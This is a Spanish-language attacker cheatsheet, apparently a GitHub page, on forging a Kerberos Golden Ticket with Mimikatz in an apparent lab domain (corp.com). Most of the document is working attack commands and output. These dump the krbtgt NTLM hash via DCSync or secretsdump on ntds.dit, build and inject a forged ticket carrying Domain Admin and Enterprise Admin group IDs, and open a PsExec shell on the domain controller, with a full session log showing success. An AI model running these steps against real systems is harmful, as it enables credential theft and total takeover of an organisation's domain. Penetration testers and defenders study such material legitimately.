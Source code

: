 ## 🟡 Golden Ticket – Cheatsheet

### 🎯 Objetivo:

Falsificar un TGT (Ticket Granting Ticket) válido usando Mimikatz para obtener acceso total al dominio.

---

### 🧩 Requisitos:

| Elemento                 | Descripción                           | Cómo obtenerlo                   |
| ------------------------ | ------------------------------------- | -------------------------------- |
| 🟡 NTLM hash de `krbtgt` | Clave maestra que firma los TGT       | `DCSync` o volcado de `ntds.dit` |
| 🟡 SID del dominio       | Identificador único del dominio       | `whoami /user` o `Get-ADDomain`  |
| 🟡 Nombre de usuario     | Usuario que representará el TGT falso | Cualquiera, real o inventado     |
| 🟡 UserID (opcional)     | 500 para Administrator                | Fijo o inventado                 |
| 🟡 Group IDs (opcional)  | 512 (Domain Admins), etc.             | Fijos (ver tabla abajo)          |

---

### 📤 Obtener el hash NTLM de `krbtgt`

#### ✅ Si tenemos privilegios de DCSync:

```powershell
# PowerView
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:corp.com /user:krbtgt"'
```

#### ✅ Si tenemos `ntds.dit` + `SYSTEM`:

```bash
secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL > output.txt
# Buscar línea con krbtgt:<RID>:<LM>:<NTLM>
```

---

### 📤 Obtener el SID del dominio

#### Desde PowerShell:

```powershell
Get-ADDomain | Select-Object -ExpandProperty DomainSID
```

#### O desde terminal:

```cmd
whoami /user
# Elimina el RID del usuario al final del SID
```

### 🛠️ Crear y cargar el Golden Ticket (Mimikatz)

```mimikatz
privilege::debug
kerberos::purge

kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-XXXXXX /krbtgt:<hash NTLM> /id:500 /groups:512 513 519 /ptt
```

> `- /ptt` carga el ticket directamente en memoria

### 🔪 Verificar el ticket cargado

```mimikatz
kerberos::list
```

### 🔄 Usar el Golden Ticket

Ejecuta comandos que requieran autenticación Kerberos, por ejemplo:

```cmd
PsExec.exe \\dc1 cmd.exe
# o
dir \\dc1\C$
```

### 📞 Grupos comunes para /groups:

| RID | Grupo               |
| --- | ------------------- |
| 512 | Domain Admins       |
| 513 | Domain Users        |
| 514 | Guests              |
| 515 | Backup Operators    |
| 518 | Schema Admins       |
| 519 | Enterprise Admins   |
| 520 | Group Policy Admins |

### Ejemplo Completo

```mimikatz
PS C:\Tools> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
User      : jen
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 1693c6cefafffc7af11ef34d1c788f47 - rc4_hmac_nt
Lifetime  : 4/28/2025 12:17:42 PM ; 4/26/2035 12:17:42 PM ; 4/26/2035 12:17:42 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jen @ corp.com' successfully submitted for current session

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF60489B800



##### On the new spawned terminal, do this:
C:\Tools\SysinternalsSuite>PsExec.exe \\dc1 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.20348.887]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>hostname
DC1
```
